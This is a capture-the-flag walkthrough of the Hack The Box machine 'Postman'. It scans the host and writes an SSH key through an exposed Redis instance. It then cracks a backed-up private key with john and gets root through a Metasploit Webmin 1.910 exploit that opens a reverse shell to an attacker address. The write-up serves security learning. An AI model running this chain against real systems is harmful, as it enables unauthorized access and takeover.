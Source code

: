# Postman

<table>
  <tr>
    <td style="text-align:right;"><b>OS</b></td>
    <td>Linux</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Difficulty</b></td>
    <td>Easy</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Points</b></td>
    <td>20</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Release</b></td>
    <td>02 Nov 2019</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>IP</b></td>
    <td>10.10.10.160</td>
  </tr>
</table>

## Foothold

To begin, we will add the entry `10.10.10.160 postman.htb` to `/etc/hosts` and then start scanning.

```
# nmap -sC -sV -T5 postman.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 15:14 EDT
Nmap scan report for postman.htb (10.10.10.160)
Host is up (0.040s latency).
Not shown: 996 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
8000/tcp  open  caldav  Radicale calendar and contacts server (Python BaseHTTPServer)
|_http-title: Directory listing for /
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that SSH and HTTP are open as well as two additional ports. After doing an additional port scan on all ports on the machine, we see there is another port open.

```
# nmap -p- postman.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 15:15 EDT
Nmap scan report for postman.htb (10.10.10.160)
Host is up (0.039s latency).
Not shown: 65530 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
8000/tcp  open  http-alt
10000/tcp open  snet-sensor-mgmt

# nmap -sC -sV -p 6379 postman.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 15:18 EDT
Nmap scan report for postman.htb (10.10.10.160)
Host is up (0.035s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9
```

Now that we know what is open, we can begin to enumerate the services. First, we will look at the website on port 80 by browsing to `postman.htb`.

![](images/website.png)

We see that this is just a basic website and directory scanning reveals nothing of interest. When browsing `postman.htb:8000` we see it is a directory listing for another service and also provides nothing of interest. If we look at `postman.htb:10000` we get an SSL error and try again at `https://postman.htb:10000` and see a login page for Webmin.

![](images/webmin.png)

Default credentials such as `admin:admin`, `postman:postman`, etc. did not work and RCE exploits for Webmin all require some form of authentication. We will keep this in mind later when we start to obtain some credentials.

The last thing to explore is the redis instance. To interact with it, we can use the `redis-cli` tool and begin to gather information.

```
# redis-cli -h postman.htb
postman.htb:6379> set key test
OK
postman.htb:6379> get key
"test"
postman.htb:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
```

From this, we see that we are able to write arbitrary data and also note an interesting SSH directory. We can reason that we might be able to drop our key into this directory and then SSH as the redis user. Redis' creator and security researcher, antirez, [wrote a post about redis security](http://antirez.com/news/96) where he directly mentions this idea and has a simple proof of concept. 

In order to get unauthorized SSH access via the redis instance, we have to create an SSH key and prepare it to be dumped into the database.

```
# ssh-keygen -t rsa -C "eelz@postman.htb"
...
# (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
# cat key.txt | redis-cli -h postman.htb -x set key
OK
# redis-cli -h postman.htb
postman.htb:6379> config set dir /var/lib/redis/.ssh
OK
postman.htb:6379> config set dbfilename "authorized_keys"
OK
postman.htb:6379> save
OK
```

Now that the key is appended to the authorized keys file, we can use our key to SSH in.

```
# ssh -i id_rsa redis@postman.htb
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Mar 22 18:56:43 2020 from 10.10.15.142
redis@Postman:~$
```

From here, we can conduct more enumeration and pivot to other users.

## User

With a quick directory listing, we see there is one user, Matt.

```
redis@Postman $ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
drwxr-xr-x  6 Matt Matt 4096 Sep 11  2019 Matt
```

There is nothing besides the flag in his home directory so we will have to do more searching. We eventually see there is a backup file of his private SSH key that is readable by everyone.

```
redis@Postman:~$ ls -la /opt
total 12
drwxr-xr-x  2 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26  2019 id_rsa.bak
```

We can use the tool `ssh2john` in order to create a hash of this file and then use `john` in order to crack the password. With this, we will be able to SSH as Matt.

```
# ssh2john id_rsa.bak > hash.txt
# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:04 DONE (2020-03-22 15:47) 0.2450g/s 3515Kp/s 3515Kc/s 3515KC/sa6_123..*7¡Vamos!
Session completed

# ssh -i id_rsa.bak Matt@postman.htb
Enter passphrase for key 'id_rsa.bak': 
Connection closed by 10.10.10.160 port 22
```

We've got Matt's password, `computer2008`, but can't log in! We see that we have the correct password but the connection is immediately closed. Various tricks do not work in logging in as him but since we have access to the machine, we can view the configuration file and check for trickery.

```
redis@Postman:~$ cat /etc/ssh/sshd_config
...
#deny users
DenyUsers Matt
...
```

We see that we are explicitly not able to SSH as Matt. Luckily, since we have remote access, we can switch to Matt's account locally and read the flag.

```
redis@Postman:~$ su Matt
Password: 
Matt@Postman:/var/lib/redis$ cd
Matt@Postman:~$ cat user.txt 
517ad0**************************
```

## Root

Now that we have Matt's credentials, we need to elevate ourselves to the root user. Going back to the Webmin login, we use Matt's credentials and are able to login.

![](images/login.png)

We see that the Webmin version is 1.910 and we can further view exploits to see which fits best. The particular exploit we will use it `exploit/linux/http/Webmin_packageup_rce`:

> Description:
  This module exploits an arbitrary command execution vulnerability in 
  Webmin 1.910 and lower versions. Any user authorized to the "Package Updates" module can execute arbitrary commands with root privileges.

If Matt is part of the "Package Updates" module, we will be able to get a reverse shell as root and be able to read the flag.

```
msf5 > use exploit/linux/http/Webmin_packageup_rce
msf5 exploit(linux/http/Webmin_packageup_rce) > set LHOST 10.10.14.54
LHOST => 10.10.14.54
msf5 exploit(linux/http/Webmin_packageup_rce) > set RHOST postman.htb
RHOST => postman.htb
msf5 exploit(linux/http/Webmin_packageup_rce) > set USERNAME Matt
USERNAME => Matt
msf5 exploit(linux/http/Webmin_packageup_rce) > set PASSWORD computer2008
PASSWORD => computer2008
msf5 exploit(linux/http/Webmin_packageup_rce) > set SSL true
SSL => true
msf5 exploit(linux/http/Webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.54:4444 
[+] Session cookie: d7c9f0b81683e4db959da275e60a1a30
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.54:4444 -> 10.10.10.160:36766)

whoami
root
cat /root/root.txt
a25774**************************
```
